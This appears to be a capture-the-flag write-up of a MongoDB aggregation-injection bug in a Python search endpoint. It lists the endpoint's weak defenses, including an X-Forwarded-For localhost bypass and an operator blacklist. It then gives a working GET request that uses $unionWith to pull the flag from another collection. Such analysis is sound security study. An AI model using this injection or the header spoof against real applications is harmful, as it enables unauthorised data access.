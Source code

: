### Where the bug lives

`routes/main.py` → `search()` endpoint

```python
pipeline = [updated_filter, {"$limit": 2}]
with pymongo.timeout(4):
    result = list(User.objects.aggregate(pipeline))
```

The handler takes **`filter=<json>`** from the query-string, turns it  
directly into a **MongoDB aggregation stage**, and executes it.  
That is textbook **NoSQL-/aggregation-injection** → we can run _any_  
pipeline operator.

---

### Built-in “safety” checks — and how tight they are

|Check|Implemented code|What it blocks|What still passes|
|---|---|---|---|
|**Local-host only**|IP must be `127.0.0.1` _or_ set via the `X-Forwarded-For` header|External hits from the Internet|Any internal service that can spoof that header (e.g., Git, cron jobs, other backend endpoints)|
|**`debug=true` flag**|query-param must equal the string “true”|Casual scanners|We just add `&debug=true`|
|**Key blacklist**|50+ operators in `DISABLED_OPERATION_MONGO`|`$where`, `$function`, `$out`, …|Operators **not** on the list, e.g. `$unionWith`, `$group`, `$facet`, `$project`, `$addFields`, …|
|**Depth limiter**|`limit_object_depth(max=2)`|Pipelines nested deeper than 2 docs|Single-stage injections (`{"$unionWith": …}`)|
|**Key-count ≤ 5**|`if len(keys) > 5:`|Very large objects|Small payloads (needs only 1 key)|
|**Timeout 4 s**|`with pymongo.timeout(4)`|Super-slow queries|Normal look-ups|

So the dangerous operators are _black-listed_, but nothing stops us from  
using a **permitted** stage like `$unionWith`, `$group`, or `$project` to  
reach other collections (`config`) and return whatever we want.

---

### Exploit in one GET request (works inside the container)

```text
GET /api/search?debug=true
    &filter={
        "$facet":{
            "p":[
              { "$unionWith":{
                  "coll":"config",
                  "pipeline":[
                    { "$match":{"type":"flag"} },
                    { "$project":{"_id":0,"value":1} }
                  ]
              }}
            ]
        }
    }
```
